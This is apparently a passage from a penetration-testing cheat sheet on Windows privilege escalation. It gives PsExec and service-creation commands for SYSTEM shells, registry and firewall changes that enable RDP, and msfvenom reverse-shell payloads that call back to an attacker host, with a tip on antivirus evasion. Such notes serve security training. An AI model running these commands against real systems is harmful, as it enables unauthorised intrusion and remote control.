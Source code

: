 #### PSExec Remote Usage

```cmd
# Access remote system (requires admin credentials)
PsExec64.exe \\remote_host -u Domain\Administrator -p Password cmd.exe

# Execute with SYSTEM privileges on remote system
PsExec64.exe \\remote_host -u Domain\Administrator -p Password -s cmd.exe
```

### Using Service Creation for SYSTEM Shell

Creating and starting a service that executes a command will run that command as SYSTEM:

```cmd
# Create a service that launches cmd.exe
sc create mysvc binpath= "cmd.exe /k start"
sc start mysvc
```

## Remote Access with GUI

### RDP Access After Privilege Escalation

After adding a user to the administrators group, you can use RDP to connect with a GUI interface:

```cmd
# Enable RDP if it's disabled
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

# Add firewall exception for RDP
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

# Connect using RDP client from Kali
xfreerdp /v:<target-ip> /u:<username> /p:<password> /dynamic-resolution
```

## Payload Generation with MSFvenom

MSFvenom can create payloads that establish privileged shells when executed on the target.

### Generating Reverse Shell Payloads

```bash
# Windows reverse shell executable (stageless)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your-ip> LPORT=4444 -f exe -o reverse_shell.exe

# Windows reverse shell executable (staged, better for AV evasion)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=4444 -f exe -o reverse_met.exe

# PowerShell payload
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=<your-ip> LPORT=4444 -f psh -o reverse_shell.ps1
```
